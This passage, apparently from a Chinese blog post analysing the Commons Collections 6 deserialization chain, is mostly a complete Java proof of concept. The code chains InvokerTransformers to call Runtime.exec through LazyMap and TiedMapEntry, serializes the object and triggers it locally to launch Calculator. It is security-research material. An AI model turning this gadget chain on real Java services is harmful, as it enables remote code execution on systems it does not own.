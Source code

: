 令 key 为TiedMapEntry 对象，即可，这里直接使用 @phithon 师傅的代码

```java
public class CommonsCollections6 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] { "/Applications/Calculator.app/Contents/MacOS/Calculator" }),
                new ConstantTransformer(1),
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        // 不再使用原CommonsCollections6中的HashSet，直接使用HashMap
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        outerMap.remove("keykey");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        // 本地测试触发
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

这里的 key 理论上是我们构造好的 TiedMapEntry ，value 是我们第二个 HashMap put 进去的 “value” 字符串

![](Commons-Collections-反序列化利用链分析/image-20210212163921869.png)
